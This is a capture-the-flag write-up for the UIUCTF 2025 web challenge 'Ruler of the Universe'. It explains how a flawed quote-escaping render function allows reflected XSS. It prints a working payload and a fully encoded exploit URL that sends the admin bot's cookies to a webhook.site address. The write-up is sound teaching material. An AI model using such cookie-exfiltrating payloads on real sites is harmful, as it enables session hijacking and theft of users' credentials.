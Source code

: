 ```yaml
---
title: UIUCTF 2025 - Ruler of the Universe
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - typescript
  - xss
authors:
  - Valenter
---
```

*With this ship I have the entire universe at my fingertips.*

Hi everyone, this is the first and easiest in a series of four sci-fi-inspired cosmic-web challenges from uiuctf. I only solved the first three, while my teammate simonedimaria worked on the fourth one, so I will only be tackling those.

First of all, let's take a second to appreciate the homepage of the challenge.
![Homepage](/uiuctf2025/ruler-of-the-universe/screenshot-1.png)

Straight out of last-century digital retrofuturism, System Shock or Neuromancer come to mind.

## Full diagnostic sweep of the mainframe

There's an *Admin Bot* link at the top, which points us in the direction of XSS.
![Admin-Bot](/uiuctf2025/ruler-of-the-universe/screenshot-2.png)

That's cool and all, but what can we actually interact with? Let's open those ominous Astra Main Frame modules at the bottom:
![Modules](/uiuctf2025/ruler-of-the-universe/screenshot-3.png)

Looks like we can leave a message for the crew, and it will appear under **Messages** at the bottom. Hmm, looks suspicious, let's pull up the ship's source code:

```ts
// module.tsx
const Module = ({
  id,
  crewMessage,
}: {
  id: number;
  crewMessage: string | null | undefined;
}) => {
  // ...
  <form class="mt-4" method="GET">
    <label for="message" class="block text-sm mb-1">
      Crew Message:
    </label>
    <input
      id="message"
      name="message"
      type="text"
      class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
      placeholder={
        crewMessage
          ? `Update your message: ${crewMessage}`
          : "Enter a message for the crew"
      }
    />
  </form>
  // ...
};
:contentReference[oaicite:2]{index=2}
```

`crewMessage` is taken directly from `index.tsx`'s `const crewMessage = new URL(req.url).searchParams.get("message");` and interpolated into the *placeholder*.
Diving deeper into how all of this gets rendered onto the page:

```ts
import { escapeHTML } from "bun";

export function render(element: any): string {
  if (typeof element === "string" || typeof element === "number") {
    return escapeHTML(element);
  }
//...
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          // Here is where double quotes are improperly escaped
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";

  const openTag = propString ? `<${type} ${propString}>` : `<${type}>`;
  return `${openTag}${children}</${type}>`;
}
```

The render function employs Bun's `escapeHTML`,  which makes the following replacements:
- `"` becomes `"&quot;"`
- `&` becomes `"&amp;"`
- `'` becomes `"&#x27;"`
- `<` becomes `"&lt;"`
- `>` becomes `"&gt;"`

however, it only does so for strings and numbers; for attributes, a much weaker substitution is in place:

```ts
return `${key}="${String(value).replace('"', "&quot;")}"`;
```
but `replace` only takes care of the first instance of the character in a string.

## Initiating the breach protocol

Knowing all this, and with a bit of trial and error, we can craft a working payload:

```js
crewMessage = img"" /><img src=x onerror="alert(1)" x="
```

During serialization:
- the first `"` in `img""` becomes `&quot;`
- the second `"` closes the `img` attribute

the final markup becomes:

```js
<input … placeholder="Update your message: img&quot;"
/>
<img src=x onerror="alert(1)" x=>
```

Now it's only a matter of adapting it to our purposes:

```js
img"" /><img src=x onerror="fetch(\'%s?c=\'+encodeURIComponent(document.cookie))" x="
```

Finally, we encode it into the full URL and send a POST request with the link to the Admin Bot to visit the page and retrieve the flag, which is in the bot's cookies, by forwarding it to our webhook:

```
https://inst-8be5f028661a5917-ruler-of-the-universe.chal.uiuc.tf/module/0?message=img%22%22%20%2F%3E%3Cimg%20src%3Dx%20onerror%3D%22fetch%28%27https%3A%2F%2Fwebhook.site%2F66ce23cb-d0e5-4bf5-9016-58351c7f0d51%3Fc%3D%27%2BencodeURIComponent%28document.cookie%29%29%22%20x%3D%22
```

**`uiuctf{maybe_i_should_just_use_react_c49b79}`**
